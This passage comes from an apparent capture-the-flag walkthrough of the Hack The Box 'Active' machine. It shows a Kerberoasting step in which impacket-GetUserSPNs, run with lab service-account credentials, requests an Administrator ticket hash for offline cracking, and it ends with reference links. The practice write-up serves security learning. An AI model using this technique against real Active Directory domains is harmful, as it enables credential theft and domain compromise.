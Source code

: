   <img src="/assets/img/active/kerberoasting.png">
</div>

I'm going to use impacket's version of GetUserSPNs.

<div class="article-code">
{% highlight sh%}
impacket-GetUserSPNs -request-user Administrator -dc-ip 10.10.10.100 active.htb/SVC_TGS:GPPstillStandingStrong2k18
{% endhighlight %}
</div>

<div class="article-code">
{% highlight sh%}
jeanp@~$ impacket-GetUserSPNs -request-user Administrator -dc-ip 10.10.10.100 active.htb/SVC_TGS:GPPstillStandingStrong2k18 
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet             LastLogon                   Delegation 
--------------------  -------------  --------------------------------------------------------  --------------------------  --------------------------  ----------
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 14:06:40.351723  2024-10-15 10:45:53.577372             


[-] CCache file is not found. Skipping...
$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$ca572edd994c49bac1b4e98c3744b8...
{% endhighlight %}
</div>

Save this hash to a file. I'm going to name the file `administrator.hash`.

<div class="article-image">

[gpp-decrypt]: https://www.kali.org/tools/gpp-decrypt/
[AES-Key]: https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be
[AD-Mindmap]: https://raw.githubusercontent.com/Orange-Cyberdefense/ocd-mindmaps/main/img/pentest_ad_dark_2023_02.svg
[Kerberoasting]: https://www.ibm.com/topics/kerberoasting#:~:text=Kerberoasting%20is%20a%20cyberattack%20that,data%2C%20spread%20malware%20and%20more. 
[Hashcat-Catalog]: https://hashcat.net/wiki/doku.php?id=example_hashes